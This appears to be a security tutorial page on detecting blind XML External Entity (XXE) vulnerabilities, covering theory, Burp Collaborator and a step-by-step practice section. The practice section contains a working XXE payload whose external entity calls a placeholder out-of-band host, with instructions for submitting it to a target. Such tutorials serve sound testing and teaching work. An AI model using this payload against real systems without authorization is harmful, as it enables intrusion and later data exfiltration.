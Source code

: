 ```yaml
---
title: Basic Blind XXE Vulnerabilities Explained
description: Explore the exploitation of blind XXE vulnerabilities to test out-of-band
  connectivity and confirm external entity resolution effectively.
keywords:
- Blind XXE
- XML External Entity
- Burp Collaborator
- out-of-band detection
- data exfiltration
- server interaction
- cybersecurity techniques
---
```


# Basic Blind XXE

## Context

The primary objective of this article is to demonstrate how to exploit blind XXE (XML External Entity) vulnerabilities. Such vulnerabilities allow an attacker to confirm external entity resolution and test out-of-band connectivity without receiving direct feedback from the application. The reader should be familiar with XML structure, entity declaration, out-of-band communication, and XML external entity concepts.

## Theory

### Nature of Blind XXE Vulnerabilities

Blind XXE vulnerabilities occur when an application processes XML external entities but does not return direct output to the attacker. This lack of feedback necessitates using out-of-band communication channels to confirm whether the exploitation was successful. Therefore, the attacker must carefully craft XML payloads and monitor interactive services to detect external requests.

### Out-of-Band Detection Techniques for Blind XXE

When exploiting blind XXE, the attacker injects a payload that references an external entity linked to an attacker-controlled server. This setup allows the attacker to monitor any interactions, such as HTTP or DNS requests, that occur as a result of the exploitation. The data flow typically involves the following steps: the vulnerable application parses the injected XML data, triggers the resolution of the external entity, and sends an outbound request to the attacker's server for further interaction.

### Role of Burp Collaborator and Similar Services

Burp Collaborator is a tool that provides unique identifiers in the form of URLs to help detect and log out-of-band interactions from potentially vulnerable servers. It is a core component of the Burp Suite and is instrumental in confirming XXE vulnerability even when the server or application provides no visible output to the user. Collaborator captures DNS, HTTP, or HTTPS interactions, providing evidence of successful XML entity resolution.

## Practice

### Blind XXE with Out-of-Band Interaction (Burp Collaborator)

- **Obtain a Unique Burp Collaborator URL:**
  Start by obtaining a unique URL from Burp Collaborator. This URL will be crucial for monitoring any out-of-band requests made by target servers during the XXE attack.

- **Craft the XXE Payload:**
  Inject the following XML payload into the target application, replacing `<collaborator-url>` with the actual URL provided by Burp Collaborator:
  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<collaborator-url>/"> ]>
  <foo>&xxe;</foo>
  ```

- **Submit the Payload:**
  Use the target application's interface or an intercepting proxy tool like Burp Suite to submit the crafted XML payload to the application’s XML input endpoint.

- **Monitor for Requests:**
  After submitting your payload, monitor the Burp Collaborator interface for any DNS or HTTP requests that originated from the target server. These interactions confirm that the server processed the external entity, providing proof of the vulnerability.

#### Outcome

Successfully capturing outbound server interactions in Burp Collaborator during this process confirms the presence of a blind XXE vulnerability. This validation is key for understanding the attack surface and further exploiting the vulnerability if applicable.

## Tools

- **Burp Collaborator**
- **Burp Suite**